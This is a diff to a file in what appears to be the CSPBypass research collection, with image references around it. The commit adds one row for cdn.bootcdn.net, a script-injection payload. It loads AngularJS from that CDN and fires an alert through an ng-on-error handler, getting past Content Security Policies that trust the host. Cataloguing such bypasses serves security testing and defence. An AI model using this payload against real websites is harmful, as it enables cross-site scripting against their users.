

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added cdn.bootcdn.net

```diff
--- a/data.tsv
+++ b/data.tsv
+row 53: cdn.bootcdn.net | <script src="https://cdn.bootcdn.net/ajax/libs/angular.js/1.8.3/angular.min.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
```
